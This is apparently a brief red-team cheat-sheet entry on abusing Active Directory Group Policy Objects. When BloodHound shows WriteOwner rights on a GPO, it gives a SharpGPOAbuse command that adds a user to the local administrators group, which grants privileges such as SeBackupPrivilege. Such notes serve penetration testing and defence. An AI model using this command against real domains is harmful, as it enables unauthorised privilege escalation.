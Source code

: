 If bloodhound shows a user with WriteOwner perms to a policy such as "Default Domain Policy", then the GPO can be abused.

https://github.com/FSecureLABS/SharpGPOAbuse
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount $(USER) --GPOName "Default Domain Policy"
```
This will add them to local adminsitrators group and give them various perms (including SeBackupPrivilege!).
